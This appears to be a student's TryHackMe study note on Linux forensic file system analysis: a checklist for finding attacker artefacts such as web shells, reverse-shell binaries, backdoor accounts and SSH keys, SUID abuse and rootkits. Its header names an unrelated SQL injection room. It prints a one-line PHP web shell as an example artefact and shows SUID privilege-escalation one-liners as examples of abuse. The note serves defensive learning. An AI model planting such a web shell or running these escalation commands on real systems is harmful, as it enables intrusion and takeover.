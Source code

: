 
📅 **Date**: 19 February 25  
📂 **Category**: TryHackMe 
📝 **Status**: Completed  
🔒 **Room**: SQL Injection: Basics
🏷️ Tags: #tryhackme #tryhackme/learn # tryhackme/challenge 

---
# Linux File System Analysis

## Key Areas to Investigate

### Web Server Files
- **Web Directory**: `/var/www/html/`
  - **Command**: `ls -al /var/www/html/`
  - **Focus**: Look for suspicious files in `/uploads` directory.
- **Malicious File Example**: `b2c8e1f5.phtml`
  - **Content**: `<?php system($_GET['cmd']);?>`
  - **Analysis**: Web shell allowing remote command execution.

### Ownership and Permissions
- **Files Owned by `www-data`**:
  - **Command**: `find / -user www-data -type f 2>/dev/null`
  - **Example**: `/var/www/html/assets/reverse.elf` (Meterpreter reverse shell).
- **World-Writable Files**:
  - **Command**: `find / -perm -o+w 2>/dev/null`
  - **Focus**: Check for misconfigured permissions.

### Metadata Analysis
- **Tool**: `exiftool`
  - **Command**: `exiftool <file>`
  - **Output**: File type, size, permissions, timestamps.
  - **Example**: `exiftool /var/www/html/assets/reverse.elf`

### Checksums
- **Tools**: `md5sum`, `sha256sum`
  - **Commands**:
    - `md5sum <file>`
    - `sha256sum <file>`
  - **Use**: Verify file integrity and detect malicious files.
  - **Example**: `md5sum /var/www/html/assets/reverse.elf`

### Timestamps
- **Types**:
  - **mtime**: Last modification time.
  - **ctime**: Last metadata change time.
  - **atime**: Last access time.
- **Tool**: `stat`
  - **Command**: `stat <file>`
  - **Example**: `stat /var/www/html/assets/reverse.elf`

### User Accounts and Groups
- **File**: `/etc/passwd`
  - **Filter UID 0**: `cat /etc/passwd | cut -d: -f1,3 | grep ':0$'`
  - **Focus**: Identify backdoor accounts.
- **Groups**:
  - **Important Groups**: `sudo`, `adm`, `shadow`, `disk`.
  - **Check Group Members**: `getent group <group_name>`

### User Logins and Activity
- **Tools**:
  - `last`: View login history.
  - `lastlog`: Most recent login activity.
  - `who`: Currently logged-in users.
- **Logs**:
  - `/var/log/auth.log` (or `/var/log/secure`): Authentication events.

### Sudoers File
- **Location**: `/etc/sudoers`
- **Check for Unauthorized Entries**: `sudo cat /etc/sudoers`

### User Home Directories
- **Location**: `/home/<username>`
- **Hidden Files**:
  - `.bash_history`: Command history.
  - `.ssh/authorized_keys`: SSH public keys for access.
  - **Example**: Unauthorized key entry with comment "backdoor".

### SSH Backdoors
- **Example**:
  - **File**: `/home/jane/.ssh/authorized_keys`
  - **Content**: Unauthorized public key with comment "backdoor".
  - **Permissions**: World-writable (`rw-rw-rw-`).

### Suspicious Binaries
- **Find Executables**: `find / -type f -executable 2>/dev/null`
- **Strings Analysis**: `strings <binary>`
- **Debsums**: `sudo debsums -e -s` (Check package integrity).

### SUID/SGID Binaries
- **Find SUID Binaries**: `find / -perm -u=s -type f 2>/dev/null`
- **Example Abuse**:
  - **Python SUID Exploit**: `python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
  - **Bash SUID Copy**: `/var/tmp/bash -p`

### Rootkit Detection
- **Tools**:
  - **Chkrootkit**: `sudo chkrootkit`
  - **RKHunter**: `sudo rkhunter -c -sk`

---

## Additional Tips
- **Focus on Writable Directories**:
  - `/tmp`, `/var/tmp`, `/dev/shm`: Common targets for malicious file uploads.
- **Check for Unusual Processes**:
  - Use `ps aux` or `top` to identify suspicious processes.
- **Review Cron Jobs**:
  - Check `/etc/crontab` and user-specific cron jobs (`crontab -l`).
- **Network Connections**:
  - Use `netstat -tuln` or `ss -tuln` to identify unusual connections.
- **Log Analysis**:
  - Check `/var/log/syslog`, `/var/log/apache2/access.log`, and other relevant logs.

---

## Summary
- **Key Commands**:
  - `find`, `ls`, `stat`, `exiftool`, `md5sum`, `sha256sum`, `last`, `who`, `getent`.
- **Focus Areas**:
  - Web directories, user accounts, SUID binaries, SSH keys, and rootkits.
- **Goal**: Identify attacker artefacts, misconfigurations, and persistence mechanisms.